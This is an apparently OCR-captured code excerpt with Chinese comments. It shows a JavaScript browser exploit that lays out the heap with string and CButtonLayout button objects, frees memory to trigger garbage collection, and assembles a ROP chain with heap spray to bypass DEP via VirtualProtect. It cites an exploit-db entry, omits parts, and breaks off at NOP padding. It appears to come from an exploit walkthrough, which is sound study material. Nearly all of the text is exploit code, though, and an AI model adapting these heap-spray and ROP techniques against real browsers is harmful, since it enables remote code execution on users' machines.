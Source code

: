 ```html
var bl = new Array();
var div_container = document.getElementById("evil");
div_container.style.cssText = "display:none";

//接着按字符串E、字符串A、字符串B、CButtonLayout对象进行堆空间布局
for (var i=0; i < 500; i+=2) {
    fr[i] = free.substring(0, (0x100-6)/2);
    al[i] = string1.substring(0, (0x100-6)/2);
    bl[i] = string2.substring(0, (0x100-6)/2);
    var obj = document.createElement("button");
    div_container.appendChild(obj);
}

//释放布局后字符串E对应的堆空间
for (var i=200; i<500; i+=2 ) {
    fr[i] = null;
    CollectGarbage();
}

//进行ROP链中Gadget地址和参数的布局，并与填充数据以及shellcode拼接完成堆喷数据的初始化
//最后执行堆喷将这些数据布局到内存中
function heapspray(cbuttonlayout) {
    CollectGarbage();
    //处理各个Gadget的地址信息
    var rop = cbuttonlayout + 4161; // RET
    var rop = rop.toString(16);
    var rop1 = rop.substring(4,8);
    var rop2 = rop.substring(0,4); // } RET

    //......省略，可参见https://www.exploit-db.com/exploits/24017/

    var rop = cbuttonlayout + 408958; // PUSH ESP
    var rop = rop.toString(16);
    var rop23 = rop.substring(4,8);
    var rop24 = rop.substring(0,4); // } RET

    var shellcode = unescape("%u4141%u4141%u4242%u4242%u4343%u4343"); // PADDING
    shellcode+= unescape("%u4141%u4141%u4242%u4242%u4343%u4343"); // PADDING
    shellcode+= unescape("%u4141%u4141"); // PADDING

    //ROP链中的Gadget地址和参数布局，以实现栈转移和DEP绕过
    shellcode+= unescape("%u"+rop1+"%u"+rop2); // RETN
    shellcode+= unescape("%u"+rop3+"%u"+rop4); // POP EBP # RETN
    shellcode+= unescape("%u"+rop5+"%u"+rop6); // XCHG EAX,ESP # RETN
    shellcode+= unescape("%u"+rop3+"%u"+rop4); // POP EBP
    shellcode+= unescape("%u"+rop3+"%u"+rop4); // POP EBP
    shellcode+= unescape("%u"+rop7+"%u"+rop8); // POP EBP
    shellcode+= unescape("%u1024%u0000"); // Size 0x00001024
    shellcode+= unescape("%u"+rop9+"%u"+rop10); // POP EDX
    shellcode+= unescape("%u0040%u0000"); // 0x00000040
    shellcode+= unescape("%u"+rop11+"%u"+rop12); // POP ECX
    shellcode+= unescape("%u"+writable1+"%u"+writable2); // Writable Location
    shellcode+= unescape("%u"+rop13+"%u"+rop14); // POP EDI
    shellcode+= unescape("%u"+rop1+"%u"+rop2); // RET
    shellcode+= unescape("%u"+rop15+"%u"+rop16); // POP ESI
    shellcode+= unescape("%u"+jmpeax1+"%u"+jmpeax2); // JMP EAX
    shellcode+= unescape("%u"+rop17+"%u"+rop18); // POP EAX
    shellcode+= unescape("%u"+vp1+"%u"+vp2); // VirtualProtect()
    shellcode+= unescape("%u"+rop19+"%u"+rop20); // MOV EAX,DWORD PTR DS:[EAX]
    shellcode+= unescape("%u"+rop21+"%u"+rop22); // PUSHAD
    shellcode+= unescape("%u"+rop23+"%u"+rop24); // PUSH ESP
    shellcode+= unescape("%u9090%u9090"); // NOPs
    shellcode+= unescape("%u9090%u9090"); // NOPs
```